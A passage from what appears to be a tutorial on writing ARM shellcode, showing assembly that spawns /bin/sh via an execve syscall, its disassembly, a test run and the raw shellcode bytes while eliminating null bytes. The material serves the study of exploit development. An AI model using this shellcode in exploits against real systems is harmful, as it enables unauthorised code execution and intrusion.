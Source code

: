 	_start:
			add r1, pc, #1
			bx r1

	.code 16
			add r0, pc, #8
			eor r1, r1, r1
			eor r2, r2, r2
			mov r7, #11
			svc #1
			nop

	_string:
	.asciz  "/bin/sh"



    $ as shell.s -o shell.o
    $ objdump -d shell.o

	shell.o:     file format elf32-littlearm


	Disassembly of section .text:

	00000000 <_start>:
	   0:   e28f1001        add     r1, pc, #1
	   4:   e12fff11        bx      r1
	   8:   a002            add     r0, pc, #8      ; (adr r0, 14 <_string>)
	   a:   4049            eors    r1, r1
	   c:   4052            eors    r2, r2
	   e:   270b            movs    r7, #11
	  10:   df01            svc     1
	  12:   46c0            nop                     ; (mov r8, r8)

	00000014 <_string>:
	  14:   6e69622f        .word   0x6e69622f
	  18:   0068732f        .word   0x0068732f


And the program runs again.

    $ ld shell.o -o shell
    $ ./shell
    bash -4.4#

### Null Terminating a String

Looking at the shellcode, we have eliminated all of the **0x00**'s except for the final terminating NULL on our "/bin/sh" string.

    $ objcopy -O binary shell.o shell.bin
    $ hexdump -C shell.bin
	00000000  01 10 8f e2 11 ff 2f e1  02 a0 49 40 52 40 0b 27  |....../...I@R@.'|
	00000010  01 df c0 46 2f 62 69 6e  2f 73 68 00              |...F/bin/sh.|
	0000001c

I have been using the gnu assembler **.asciz** directive to declare strings. This automatically appends a null byte to the string data.
